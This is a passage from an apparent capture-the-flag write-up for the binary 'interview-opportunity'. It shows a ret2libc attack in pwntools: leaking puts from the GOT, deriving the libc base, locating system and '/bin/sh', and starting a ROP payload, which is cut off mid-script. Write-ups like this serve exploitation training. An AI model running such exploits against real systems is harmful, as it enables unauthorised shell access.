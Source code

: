 

**Calculating offsets**

Once we have the offset/address of the `puts` function, we can use it to calculate the base address of libc. Once we have the libc base address, we use the already known offsets of `system` and `/bin/sh` to calculate their actual addresses. Once we have those addresses, we can pop the string `/bin/sh` into the `rdi` register and use it as an argument for `system` call.

```python
address = io.recvline().strip()

got_puts = unpack(address.ljust(8, b"\x00"))
info("leaked got_puts: %#x", got_puts)

libc_base = got_puts - libc.symbols['puts']
info("libc_base: %#x", libc_base)

# Add offsets to get system() and "/bin/sh" addresses
system_addr = libc_base + libc.symbols['system']
info("system_addr: %#x", system_addr)
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
info("bin_sh: %#x", bin_sh)
```



**Exploit**

Here's the complete exploit script:

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './interview-opportunity'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec = False)
# libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', checksec=False) # For local exploit testing
libc = ELF('./libc.so.6', checksec = False) # For remote exploit run
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# Start program
io = start()

offset = 34  # IP offset
pop_rdi = 0x401313

payload = flat({
  offset: [
    pop_rdi,
    elf.got.puts,
```